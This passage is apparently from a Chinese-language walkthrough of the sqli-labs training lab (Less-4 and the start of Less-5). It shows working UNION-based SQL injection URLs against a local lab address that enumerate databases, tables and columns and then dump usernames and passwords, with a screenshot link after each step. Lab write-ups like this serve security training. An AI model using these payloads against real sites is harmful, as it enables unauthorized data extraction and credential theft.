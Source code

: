 改变id值可依次查看数据库中信息

```
http://192.168.81.135/sqli/Less-4/?id=1") union select 1,2,group_concat(column_name) from information_schema.columns where table_name=0x7573657273--+
```

![image-20211211112315611](https://gitee.com/xxb667/img/raw/master/img/image-20211211112315611.png)

#### 查看所有数据库

```
http://192.168.81.135/sqli/Less-4/?id=-1") union select 1,2,group_concat(schema_name) from information_schema.schemata --+
```

![image-20211211141621011](https://gitee.com/xxb667/img/raw/master/img/image-20211211141621011.png)

#### 查看所有表

```
http://192.168.81.135/sqli/Less-4/?id=-1") union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=0x7365637572697479--+
```

![image-20211211141828910](https://gitee.com/xxb667/img/raw/master/img/image-20211211141828910.png)

#### 查看所有列信息

```
http://192.168.81.135/sqli/Less-4/?id=-1") union select 1,2,group_concat(column_name) from information_schema.columns where table_name=0x7573657273--+
```

![image-20211211141949860](https://gitee.com/xxb667/img/raw/master/img/image-20211211141949860.png)

#### 查看所有账户和密码

```
http://192.168.81.135/sqli/Less-4/?id=-1") union select 1,2,group_concat(concat_ws(0x7e,username,password)) from security.users --+
```

![image-20211211142257404](https://gitee.com/xxb667/img/raw/master/img/image-20211211142257404.png)

## Less-5--基于【'】字符型的错误回显注入

### 查看id信息

和Less-4类似

```
http://192.168.81.135/sqli/Less-4/?id=1--+
```

![image-20211211144121859](https://gitee.com/xxb667/img/raw/master/img/image-20211211144121859.png)
